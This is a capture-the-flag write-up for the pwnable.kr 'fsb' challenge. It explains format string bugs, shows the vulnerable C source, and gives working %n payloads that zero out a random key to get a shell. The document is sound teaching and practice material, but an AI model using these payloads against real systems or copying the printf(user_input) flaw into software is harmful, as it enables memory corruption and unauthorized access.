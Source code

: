 # fsb

## Description

fsb - 20 pt 

> Isn't FSB almost obsolete in computer security? <br>
> Anyway, have fun with it :) <br><br>
> ssh fsb@pwnable.kr -p2222 (pw:guest)

## Solution

### Background

#### Format String Exploits

In C, some functions take "format specifier" as a first argument - a string that tells the function how to parse the other arguments.

Sometimes, programs take user input and give it as the format string to a function, like `prinft`. When they do so they make it possible for the user to leak data (by giving specifiers, such as `%x %d` as their input) or even write data (by utilitzing the `%n` specifier).

### The Challenge


We are given a binary, and the matching source code:

```c
#include <stdio.h>
#include <alloca.h>
#include <fcntl.h>

unsigned long long key;
char buf[100];
char buf2[100];

int fsb(char** argv, char** envp){
	char* args[]={"/bin/sh", 0};
	int i;

	char*** pargv = &argv;
	char*** penvp = &envp;
        char** arg;
        char* c;
        for(arg=argv;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        for(arg=envp;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
	*pargv=0;
	*penvp=0;

	for(i=0; i<4; i++){
		printf("Give me some format strings(%d)\n", i+1);
		read(0, buf, 100);
		printf(buf);
	}

	printf("Wait a sec...\n");
        sleep(3);

        printf("key : \n");
        read(0, buf2, 100);
        unsigned long long pw = strtoull(buf2, 0, 10);
        if(pw == key){
                printf("Congratz!\n");
                execve(args[0], args, 0);
                return 0;
        }

        printf("Incorrect key \n");
	return 0;
}

int main(int argc, char* argv[], char** envp){

	int fd = open("/dev/urandom", O_RDONLY);
	if( fd==-1 || read(fd, &key, 8) != 8 ){
		printf("Error, tell admin\n");
		return 0;
	}
	close(fd);

	alloca(0x12345 & key);

	fsb(argv, envp); // exploit this format string bug!
	return 0;
}
```

The program reads 8 random bytes into the `key` variable. It then allocates a random amount of memory on the stack, and calls the `fsb` function. There, the all the command line arguments and environment variable are nulled out. After that, we are asked 4 times to give format string (of length 100), and they are printed out. Finally, after waiting 3 seconds, the program prompts us to enter the key, and if it matches the random generated key - we are given a shell.


### Exploit

After using leaking some address and playing around with gdb, I found out that the 14th argument (relative to the `printf` call) points to the 20th argument.

And so, if we use the `%n` format specifier, we can write an arbitrary value to the 20th argument - which gives us the following plan:

* write the address of the first 4 bytes of `key` to the 20th argument
* write 0 to the first half of `key`
* repeat but this time on the other half

Yeilding `key` becomming zero.

```
%134520920xAAAAAAAA%14$n
%20$n
%134520920xAAAAAAAAAAAA%14$n
%20$n
0
```

```
Have you ever saw an example of utilizing [n] format character?? :(
```
